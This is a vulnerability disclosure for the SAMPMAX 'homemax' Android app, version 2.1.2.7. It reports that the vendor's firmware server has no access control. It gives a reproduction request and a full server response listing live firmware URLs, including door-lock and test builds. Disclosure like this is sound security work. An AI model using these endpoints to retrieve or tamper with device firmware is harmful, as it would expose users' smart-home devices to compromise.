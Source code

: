 # Vulnerability Report - com.sampmax.homemax- Incorrect Access Control

**Product:** `com.sampmax.homemax` 

**Vendor:** [SAMPMAX](https://www.sampmax.com/)

**Version:** 2.1.2.7

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.sampmax.homemax` , developed by SAMPMAX, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `getGatewayNewVersion` String value in the `GatewayInfoPresenter` class provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241002234349612](https://s2.loli.net/2024/10/02/wuLRQCm7qkW4gVH.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://dev.fbeecloud.com/backup/binupd.js HTTP/1.1
   Host: dev.fbeecloud.com
   Content-Type: text/plain
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Server: nginx
   Date: Wed, 02 Oct 2024 15:32:13 GMT
   Content-Type: application/javascript; charset=utf-8
   Content-Length: 1754
   Last-Modified: Tue, 12 Mar 2024 08:13:36 GMT
   Connection: keep-alive
   Vary: Accept-Encoding
   ETag: "65f00eb0-6da"
   Expires: Thu, 03 Oct 2024 03:32:13 GMT
   Cache-Control: max-age=43200
   Accept-Ranges: bytes
   
   [{"binname":"GD","binupdlog":"","verName":"1.1.1","url":"http:\/\/dev.fbeecloud.com\/backup\/devcloud12.bin"},{"binname":"LM","binupdlog":"","verName":"1.5.6","url":"http:\/\/www.fbeecloud.com\/app\/lm3s156.bin"},{"binname":"GW","binupdlog":"","verName":"5.0.8","url":"http:\/\/www.fbeecloud.com\/app\/gw508.bin"},{"binname":"Sky","binupdlog":"","verName":"s.2.7","url":"http:\/\/www.fbeecloud.com\/app\/gateway_S27.bin"},{"binname":"FGR87T5","binupdlog":"","verName":"3.0.3","url":"http:\/\/www.fbeecloud.com\/app\/FGR87T5303.bin"},{"binname":"DoorLock","binupdlog":"","verName":"1.9","url":"http:\/\/www.fbeecloud.com\/app\/DoorLock_019.ota"},{"binname":"FGA87M4","verName":"R.0.4","binupdlog":"","url":"http:\/\/www.fbeecloud.com\/app\/FGA87M4_R041.bin"},{"binname":"FEIBIT4","verName":"F.0.3","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FEIBIT4_F.0.3.bin"},{"binname":"FGL80Q0","verName":"D.4.C","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FGL80Q0-firmware-D4C-54-52-20200609-wifioff.tar"},{"binname":"FGC80M4","verName":"D.4.3","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FGC80M4-firmware-D43-42-49-20200403.tar1.gz"},{"binname":"FGC80M4-Test","verName":"D.3.6","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FGC80M4-firmware-D36-201910170.tar.gz"},{"binname":"FGC89T0","verName":"L.0.3","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FGC89T0-L.0.3.tar1.gz"},{"binname":"test_GM","verName":"1.0","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/libGM_sigmaStar.so"},{"binname":"CO","verName":"N.6.7","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FStack_GW.bin"},{"binname":"GM","verName":"1.1.0","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/GManage"}]
   ```
   
3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241002234447957](https://s2.loli.net/2024/10/02/fV7MCWFxyYqv5LU.png)


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.